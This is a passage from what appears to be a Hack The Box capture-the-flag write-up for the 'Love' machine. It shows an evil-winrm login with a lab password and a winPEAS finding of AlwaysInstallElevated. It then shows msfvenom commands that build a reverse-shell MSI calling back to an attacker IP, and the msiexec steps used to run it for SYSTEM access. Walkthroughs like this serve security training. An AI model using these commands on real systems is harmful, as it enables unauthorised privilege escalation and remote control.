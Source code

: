 This is helpful because our shell is quite unstable. We can use these credentials to logon as phoebe using evil-winrm:

```
┌──(ryan㉿kali)-[~/HTB/Love]
└─$ evil-winrm -i love.htb -u phoebe -p 'HTB#9826^(_'
```
Loading up winPEAS we find:

![love_wp.png](../assets/love_assets/love_wp.png)

Nice, this should make for an easy privilege escalation. MSI files will run with the permissions of whichever user is installing them, and because alwaysinstallelevated are set to true for both the machine and the user, we can generate a malicious .msi file that contains a shell, and when installed will execute with admin permissions. Lets try it out. 

First we'll create our shell.msi file:

```
┌──(ryan㉿kali)-[~/HTB/Love]
└─$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.240 LPORT=5000 -f msi -o rev_shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: rev_shell.msi
```

Then we can upload it using the `upload` feature in evil-wirm.

```
*Evil-WinRM* PS C:\temp> upload ~/HTB/Love/rev_shell.msi
Info: Uploading ~/HTB/Love/rev_shell.msi to C:\temp\rev_shell.msi

                                                             
Data: 212992 bytes of 212992 bytes copied

Info: Upload successful!
```

Then, with a listener running we can execute:

```
*Evil-WinRM* PS C:\users\phoebe\Documents> msiexec /quiet /qn /i C:\users\phoebe\documents\rev_shell.msi
The Windows Installer Service could not be accessed. This can occur if the Windows Installer is not correctly installed. Contact your support personnel for assistance.
```

However, we get an error. Not sure why though..

Interestingly, if I catch a reverse shell back and issue the same command outside of evil-winrm, I am able to catch a shell back from the .msi file as system:
